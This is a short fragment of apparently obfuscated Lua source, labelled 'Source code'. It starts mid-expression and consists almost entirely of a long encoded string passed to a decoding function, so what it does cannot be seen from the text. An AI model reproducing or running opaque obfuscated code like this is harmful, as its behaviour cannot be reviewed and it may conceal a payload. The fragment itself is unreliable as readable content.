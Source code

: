 ae(k,...)local u=h(e,"A&JUM5EG6Nl*%<aSU<%MlE66E*GUJa&QSJ<JN%lEGGUGM%U&&UN<6G6<6%GU5JaNDaS%<S*lNMGNEESN&%&JSU<8*y6EG*5JJaIaS%<E%&lNG%JJMUM&bEa6%lllNNE*EUJaJJ>M<6%Nl0G<U5/%aa<J*MNGGN5%USJ5Z6a6%%l66%E%5UUJMGEJ)la%%alaG66J5UUUJ6F<aSGNlS6JE%k&JM&6lG<E*eNNGGEbM5&lplNN*al%6<G5MMU6%Ga<<QE<G&G<EJM<<G<Sa<<Jl6N5GEp5UGOlS<%aESlG6J56NlEU*%a5%al66lE%M%&&&SQ&<SN6N66N5S5aJJiMaE%EN%NMG%gNJ%&SSMN&*SlMGaE1M+J&*Sal<&E566G%e*Ja%S)&<S*E*kGaE<MEJE.6al%%laN GJ5MUG&<Sl<%*aNa6J5aM%JEI*S%%a*qNJGJUa&<SGaa<N*Ol56JEJJM&*S*a*<&*JN56&56Ul&%S%%%*%*U6MMM5JUUD<SJ<J*5lGG65lU%&%aE<%%6lMESGJ5NU>!SSM<p*ol5G%EMM5J&&laM%El6665652U%&SSJ<%*J5UEY5%5J<*&N<M%Sl%N*E%5*UaqaS*a<**lGGaE.MJJJaSaE%llENNJNUEUJJ6*J<*%JNa6fEJ*GNlGl5UUl&5N&6a5MUE&6S6aG*N*&G%Gr5JJE&Gaa%*6U5lU%JEPJa*%alaNJE*5rUe&GSE<G%#lJ*UNMGE56Ul&<&6a.%JlM6MMa5JUM&5<%<b*/6aEMEGMGJ>fGaJ<+6G6lEGMNJ%&G%%a&%UlUG*E*UaJ:{JM*Jae%aH%MN&NUGG5aJ<&lSU%gll6SJU&MaE%6ll6l5U5JUN&6lS<5*M55EMEaUSSS&MSN<*l<N%G25JUM&MaU<6*NN%6%&*U_JaeMa%%E*;N%GUG&UE&6Sl<ll*la6SE%5&Jl1MS&6Gl<NkJ<5JMYJj;MNG%Nld6MEc5UaUtElG*M*1lEGGEUUl&%Sa<al6Na6lEEUlJa&5a<<l%MNG6n5lU%&aSa*S%Jl56JG65&U*&&SS<M*EN6G6U6MEJG_&aE%E6GNJG&M*Ja&<S5aM*6NlG%5%JSJnISa6%Gl%66E65*a*S6SMal**l5GaE{MJJJaea5%GN&66E*5QUN&GJH<l*%NaGa5<MNJ0&*a%<N*E666ME&aSS5S%a6*ll66<E&SSaNS5al%l*6N6GJ5<U5JJ*5aEGNlM6*GJ55JM%E*#<&*GNMGE56laG<EdM%JGl56SE6MlJ%Y%<M<y%EG6GSEUMlJ*F&aE%MlE66%%%5lJG5SUaU*EN6Gl5l&lJ6(NS&%+*MMU555NJa&6SEaM*aN*NS5aMCJJ2J%J%J*&N6E6M<Ul%<SU<EGUN%G6E%MS&a&&l&%**MNNEl5aa<&SSJa5*E5G6aE*UaU&aKa*aMlaNZGJ5J&>JM*UaJ%